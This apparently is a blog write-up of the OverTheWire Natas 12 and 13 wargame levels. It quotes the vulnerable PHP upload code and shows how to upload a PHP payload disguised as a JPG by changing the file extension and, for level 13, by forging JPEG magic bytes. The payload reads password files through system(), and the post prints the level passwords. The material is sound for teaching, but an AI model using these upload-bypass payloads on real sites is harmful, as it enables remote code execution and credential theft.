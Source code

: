 ```yaml
---
layout: post
title: "OverTheWire: Natas 12"
date: 2016-11-02 12:00:00
share: true
comments: true
tags: [OverTheWire - Natas]
---
```


## Natas 12

In this level you're able to upload a JPG file with max size 1KB. Let's check the sourcecode.

```php
<?   
  
function genRandomString() {  
    $length = 10;  
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";  
    $string = "";      
  
    for ($p = 0; $p < $length; $p++) {  
        $string .= $characters[mt_rand(0, strlen($characters)-1)];  
    }  
  
    return $string;  
}  
  
function makeRandomPath($dir, $ext) {  
    do {  
    $path = $dir."/".genRandomString().".".$ext;  
    } while(file_exists($path));  
    return $path;  
}  
  
function makeRandomPathFromFilename($dir, $fn) {  
    $ext = pathinfo($fn, PATHINFO_EXTENSION);  
    return makeRandomPath($dir, $ext);  
}  
  
if(array_key_exists("filename", $_POST)) {  
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);  
  
  
        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {  
        echo "File is too big";  
    } else {  
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {  
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";  
        } else{  
            echo "There was an error uploading the file, please try again!";  
        }  
    }  
} else {  
?>  
  
<form enctype="multipart/form-data" action="index.php" method="POST">  
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />  
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />  
Choose a JPEG to upload (max 1KB):<br/>  
<input name="uploadedfile" type="file" /><br />  
<input type="submit" value="Upload File" />  
</form>  
<? } ?>   
```

Following the logical code flow:  

  * *Line 43*: An upload form is generated, it contains 4 input tags:
    1. `MAX_FILE_SIZE`: Kind of [useless ](http://stackoverflow.com/questions/1381364/max-file-size-in-php-whats-the-point)since it's not really supported. 
    2. `filename`: This an autogenerated 10-characters long string with _hardcoded _.jpg extension. 
    3. `uploadfile`: The file you'll be uploading
    4. Submit button.

  * *Line 27* : If the POST request contains `filename`  (submitted through the upload form), it generated a NEW random string to use as file name, *yet the existing extension is kept*. A couple of checks are done to verify it's a valid JPG. First, it checks if the file size is less than 1KB. If it's bigger than 1KB, an error message is displayed.
  * Otherwise, the file is uploaded and stored under upload directory with format **randomstring.ext**, where ext is the extension provided in input tag (filename)

If we change the extension of filename tag from JPG to PHP, we may be able to
execute code remotely.  
  

#### 1\. Create a fake JPG containing php code

We'll be using [`system()`](http://php.net/manual/en/function.system.php) to read our password.  
  
```console
root@kali: ~/Desktop# echo "<?php echo system(\"cat /etc/natas_webpass/natas13\"); ?>" > natas12.jpg  
root@kali: ~/Desktop# cat natas12.jpg  
<?php echo system("cat /etc/natas_webpass/natas13"); ?>"  
``` 

#### 2\. Upload JPG and get password

```html
<input name="filename" value="o0xn5q93si.jpg" type="hidden">  
```
is changed to  
```html
<input name="filename" value="o0xn5q93si.php" type="hidden">  
```    
  
You don't need to change the entire file name, since it won't be used anyway, what matters is changing JPG to PHP, this way it will be reused in `makeRandomPathFromFilename` function.  
  
![10]({{ site.baseurl}}/images/10.png)
  
The link generated does contain `.php` extension! Open it and you'll find your password.  
  
*Password:* jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

_________________________________  

## Natas 13

You'll notice that this challenge is very similar to Natas 12, the only added verification is this condition:  
  
```php
<?php  
...  
  
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {  
        echo "File is not an image";  
    }  
  
...  
  
?>  
```    

  
This will make our fake JPG fail to be validated as valid. If you run file on it, it's also not validated as JPEG!  
  
```console
root@kali: ~/Desktop# file natas12.jpg  
natas12.jpp: PHP script, ASCII text  
root@kali: ~/Desktop#   
```
  
In this case, we need to know how files' types are recognized, after some research you'll stumble upon something called [file signatures/magicnumbers.](https://en.wikipedia.org/wiki/List_of_file_signatures). A JPG  file contains the following HEX signature: `FF D8 FF DB`.
  
_____________________________________

### 1\. Generate a fake JPG with valid signature

Easiest approach is create a new file with jpg extension then use hexeditor to add the JPG signature.

```console
root@kali:~/Desktop# echo "<?php echo system("/etc/natas_webpass/natas14"); ?>" > file.jpg  
root@kali:~/Desktop# hexeditor -b file.jpg  
```

Next, we start hexeditor in buffer mode to allow us to insert null bytes, we need 4 of these. CTRL+A will do. 

![11]({{ site.baseurl}}/images/11.png)

![12]({{ site.baseurl}}/images/12.png)

![13]({{ site.baseurl}}/images/13.png)

Hit CTRL+X to save and exit

_____________________________________

### 2\. Upload JPG and get password

This is the same step as earlier.

**Password:** `Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`